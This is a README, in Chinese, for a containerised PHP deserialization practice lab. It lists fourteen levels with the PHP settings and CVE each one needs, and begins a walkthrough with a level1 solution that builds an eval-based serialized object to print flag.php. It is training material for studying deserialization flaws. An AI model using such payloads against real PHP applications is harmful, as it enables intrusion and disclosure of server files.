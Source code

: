 # About

该项目基于原项目：https://github.com/fine-1/php-SER-libs 制作，为其添加了容器环境/

关卡信息：

| 序号 | 可行性验证 | 关卡信息 | 备注 |
|:-----|:-----------|:---------|:-----|
| level1 | × | 类的实例化 | - |
| level2 | × | login | - |
| level3 | × | relogin | - |
| level4 | ✓ | create_fucntion与可变函数调用 | 5.6不支持可变函数，7.2已废除create_function |
| level5 | ✓ | 序列化格式过滤与CVE-2016-7124 | CVE-2016-7124漏洞影响版本：PHP5 < 5.6.25，PHP7 < 7.0.10 |
| level6 | ✓ | 私有属性反序列化 | escaped binary string(仅从php6开始支持) |
| level7 | ✓ | __call与属性的初始值 | 同上 |
| level8 | × | 反序列化增逃逸 | - |
| level9 | × | ezpop | - |
| level10 | ✓ | just_one_soap | 需要开启soap扩展(php5.6：extension=php_soap) |
| level11 | ✓ | a phar | php.ini中phar.readonly=Off（若有分号则去掉） |
| level12 | ✓ | a phar trick | 同上 |
| level13 | ✓ | 引用和session | session.auto_start=0;<br/>session.serialize_handler = php;（level13均为默认设置） |
| level14 | × | session.upload_progress | session.auto_start=0;<br/>session.serialize_handler = php_serialize;<br/>session.upload_progress.enabled = On;<br/>session.upload_progress.cleanup = Off;<br/>session.upload_progress.prefix = "upload_progress_";<br/>session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS";<br/>session.upload_progress.freq =  "1%";<br/>session.upload_progress.min_freq = "1"; |

其他关卡未作可行性验证， 如有问题请提交issue。

验证环境配置如下：

```
OS: Debian GNU/Linux 12 (bookworm) x86_64 
Kernel: 6.1.0-26-amd64 
Shell: bash 5.2.15 
CPU: AMD Ryzen 7 7840HS w/ Radeon 780M Graphics (16) @ 3.800GHz 
```



# wp

**level1 类的实例化**

```php
<?php
class a{
    var $act;
    function action(){
        eval($this->act);
    }
}
$a=new a();
$a->act="show_source('flag.php');";
$a->action();
echo serialize($a);
?>
```
